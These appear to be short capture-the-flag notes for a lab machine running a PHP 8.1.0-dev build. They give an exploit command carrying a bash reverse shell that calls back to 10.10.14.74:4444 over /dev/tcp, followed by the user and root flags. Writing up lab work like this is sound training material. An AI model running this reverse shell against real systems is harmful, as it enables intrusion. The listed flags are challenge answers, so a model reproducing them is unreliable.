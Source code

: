 IP = 10.10.10.242

	-> PHP 8.1.0-dev
	
REVERSE_SHELL:-
	
	python3 exploit.py -u http://10.10.10.242/ -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.74/4444 0>&1'"


	user_flag:- c39e3e2c93437b2bb58601b09daf8850

	root_flag:- 30f4adaa9b6e85285b4c3cc983e2cb6a

